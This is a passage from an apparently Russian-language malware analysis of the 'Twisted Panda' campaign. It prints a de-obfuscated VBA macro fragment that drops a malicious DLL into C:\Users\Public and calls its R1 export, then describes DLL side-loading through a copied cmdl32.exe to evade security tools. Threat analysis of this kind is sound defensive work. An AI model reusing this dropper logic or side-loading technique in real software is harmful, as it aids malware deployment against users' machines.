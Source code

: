 В конце отрабатывает следующий код (привёл к читаемому виду):

```vbnet
Dim hd As LongPtr
    hd = GetModuleHandleA(cmpbk32.dll)
    If Not hd = 0 Then
        FreeLibrary(hd)
    Else
        wafll C:\Users\Public + "\" + cmpbk64.dll, accef34Decode(UserForm1.Label2), CByte(73), 1
        h = FreeLibrary(C:\Users\Public & "\" + cmpbk64.dll)
        R1
    End If
```

Который загружает вредоносную библиотеку и вызывает из неё функцию **R1** (экспортируется из вредоносной библиотеки **cmpbk32.dll**).

![12](/assets/images/twisted_panda/12.png){:class="img-responsive"}

Функция **R1** отвечает за создание в директории пользователя **%Temp%** папки **OfficeInit** и перемещение дропнутых файлов туда, также туда перемещается cmdl32.exe (легитимный исполняемый файл из директории system32), после чего легитимный процесс запускается он подгружает вредоносный код из библиотеки **cmpbk32.dll**. Т.е. реализуется атака side-on loading DLL для обхода СЗИ. (рис 13)
